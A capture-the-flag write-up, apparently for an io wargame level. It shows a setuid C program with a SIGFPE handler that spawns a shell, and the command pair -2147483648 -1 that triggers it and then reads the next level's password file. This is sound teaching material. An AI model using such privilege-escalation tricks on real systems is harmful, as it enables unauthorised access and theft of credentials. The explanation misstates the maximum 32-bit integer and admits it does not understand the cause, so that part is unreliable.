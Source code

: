 1. Check out the source file to see what we need to do:
   ```
   //a little fun brought to you by bla
   
   #include <stdio.h>
   #include <stdlib.h>
   #include <signal.h>
   #include <setjmp.h>
   
   void catcher(int a)
   {
        setresuid(geteuid(),geteuid(),geteuid());
        printf("WIN!\n");
        system("/bin/sh");
        exit(0);
   }
   
   int main(int argc, char **argv)
   {
        puts("source code is available in level02.c\n");
   
        if (argc != 3 || !atoi(argv[2]))
            return 1;
        signal(SIGFPE, catcher);
        return abs(atoi(argv[1])) / atoi(argv[2]);
   }
   ```

2. We see that there's a signal to catch a SIGFPE: a floating point exception. Something like this can be caused by dividing by zero or some other similar exception (as you'll see below). We also see that there's a check to make sure we supply two command line arguments, and the second argument can not be zero. As the final return line shows, the first argument is dividied by the second and the absolute value of this operation is returned. Since argv[2] can't be zero, we need to find some other way to cause an exception.

  Some things to look into would be the max 32 bit integer value (2,147,483,648) and doing some kind of weird division there to cause an error.

3. Now here's the solution:
   ```
   level2@io:/levels$ ./level02 -2147483648 -1
   source code is available in level02.c

   WIN!
   sh-4.2$ cat /home/level3/.pass
   [Password to level3]
   ```

* To be perfectly honest, I'm not totally sure why this works. I played around with these numbers for a little while and I just happened to get the right ones. I'll look into a bit more to figure out exactly why this causes a SIGFPE.
